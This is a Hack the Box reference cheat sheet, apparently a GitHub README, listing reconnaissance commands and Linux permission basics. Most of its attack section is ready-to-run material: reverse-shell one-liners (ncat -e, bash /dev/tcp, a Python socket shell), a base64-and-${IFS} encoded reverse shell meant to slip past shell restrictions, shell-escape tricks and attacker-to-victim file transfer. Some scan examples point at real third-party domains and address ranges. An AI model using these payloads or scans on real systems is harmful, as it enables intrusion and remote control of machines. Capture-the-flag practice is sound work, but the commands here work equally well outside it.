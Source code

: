 ## Hack the Box Reference.<br>
***<h2>Contains commands,Link and tricks for challenges</h2>***<br>
***COMMON COMMANDS***<br>
**Nmap**<br>
•	nmap -sV -p 1-20000  -iL input.txt -oN output.txt<br>
**masscan probe to establish the open ports in the host.**<br>
•	masscan -e tun0 -p1-65535,U:1-65535 10.10.10.101 --rate=700<br>

**nmap scanning the discovered ports to see what are the services.**<br>
•	nmap -sV -v -O -sS -T5 {target}<br>

**Subfinder(only subfinder can run large wordlist)**<br>
•	./subfinder -d freelancer.com -o output.txt<br>
**Eyewitness**<br>
•	./EyeWitness.py --headless -f hunchly_dark.txt -d output_dir1 --prepend-https <br>
•	./EyeWitness.py --web --thread 50 -f hunchly_dark.txt -d output_dir1 --prepend-https<br>
•	dnscan.py -d ubnt.com -w /SecLists/Discovery/DNS/bitquark_subdomains_top100K.txt -t 30 -o D_ubnt.txt<br>
•	masscan -p80,443,8080,9090,8081, 66.211.168.0/22 > mass_paypal.txt<br>
•	gobuster -m dns -u target.com -w $wordlist<br>
**installing tab completion**<br>
•	apt-get install bash-completion<br>
**Untar**<br>
•	tar -xvf sqlmap.tar.gz<br>
•	gzip -d file.gz<br>
•	tcpdump port 9009<br>
•	tcpdump -nni eth0 icmp<br>
•	ps -eaf | grep [w]get<br>
•	cat /proc/meminfo<br>
•	cat /proc/cpuinfo<br>
•	wfuzz.py -c -z file,commons.txt --hc 404 -o html http://www.site.com/FUZZ 2> /var/www/html/res.html<br>
•	./parameth.py -u TARGET<br>
•	python linkfinder.py -i https://example.com/1.js -o results.html<br>

**list all file in a directory with permission**<br>
ls -l /home<br>
In the above it is listing all files of home directory with permissions<br>
**list all files with hidden with permission**<br>
ls -al<br>
**show permission of directory or file**<br>
ls -ld<br>
**Dir and File Bruteforce or enumeration**<br>
*WFUZZ*<br>
wfuzz -c -z file,/root/SecLists/Discovery/Web-Content/common.txt --hc 404,400 -X GET -u http://10.10.10.160/FUZZ<br>

**Gobuster Dir enumeration**<br>
```gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 20 -e -x php,htm,html,txt -u http://target```<br>

**REVERSE SHELL**<br>

Victim: ncat -e /bin/bash {IP} {PORT}<br>
Attacker: Machine:nc -lvnp {PORT}<br>
python -m SimpleHTTPServer 9999<br>
Victim: bash -i >& /dev/tcp/{IP}/{PORT} 0>&1<br>

Attacker: Machine:nc -lvnp {PORT}<br>
Victim(Base64): echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;<br>

Attacker:nc 192.168.1.102 4444 -e /bin/sh <br>
Victim:nc -lvp 4444 <br>
Attacker:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br>
Victim:nc -lvp 1234<br>
Note:In the above payload python will run and creating bash shell.But while sometimes trying to put commands it throws error like you have to run through terminal.For that Run Below command to work properly<br>
<br>
python3 -c 'import pty; pty.spawn("/bin/sh")'<br>
<br>
 Related Shell Escape Sequences...
 
    python-->python3 -c 'import pty; pty.spawn("/bin/sh")'
    vi-->   :!bash
    vi-->   :set shell=/bin/bash:shell
    awk-->  awk 'BEGIN {system("/bin/bash")}'
    find--> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl--> perl -e 'exec "/bin/bash";'
**File transfer during REVERSE SHELL**<br>
Attacker: service apache2 start<br>
place shell or exploit in /var/www/html<br>

Attacker:python -m SimpleHTTPServer 9999<br>
Victim: wget 192.168.1.102:9999/file.txt<br>
Victim: curl -O http://192.168.0.101/file.txt<br>

Attacker:nc -lvp 4444 < /root/home/exploit.txt<br>
Victim:nc 192.168.1.102 4444 > exploit.txt<br>




**bypass-bash-restrictions**<br>
https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions<br>

**Bypass shell restriction using {IFS} and Base 64 encoding**

```echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;```<br>
it means the highlighted part below is base64 encoded to bypass shell restriction<br>
echo${IFS}**bash -i >& /dev/tcp/10.10.14.94/9007 0>&1**|base64${IFS}-d|bash${IFS}-;<br>
**Understanding Linux File and directory permissions**<br>
d 	r 	w 	x 	r 	w 	x 	r 	w 	x  t<br>
Dir	    Owner 	   Group 	       Other <br>
Directory 	Read 	Write 	Execute 	Read 	Write 	Execute 	Read 	Write 	Execute <br>
t is sticky flag restricted to executed by owner
If any of these letters is replaced with a hyphen (-), it means that permission is not granted.For example <br>
drwxr-xr-x<br>
    A folder which has read, write and execute permissions for the owner, but only read and execute permissions for the group and exe for other users.<br>
-rw-rw-rw-<br>
    A file that can be read and written by anyone, but not executed at all.<br>
    
    
**Understanding Linux File and directory permissions Using Numbers**<br>
No (R) 	 (W) 	(X)<br>
0 	          No 	   No 	           No<br>
1 	          No     No 	           Yes<br>
2 	          No 	   Yes 	            No<br>
3 	          No 	   Yes 	           Yes<br>
4 	          Yes 	  No 	            No<br>
5 	          Yes 	  No 	            Yes<br>
6 	          Yes 	  Yes 	           No<br>
7 	          Yes    	Yes 	          Yes<br>

777 is the same as rwxrwxrwx<br>

755 is the same as rwxr-xr-x<br>



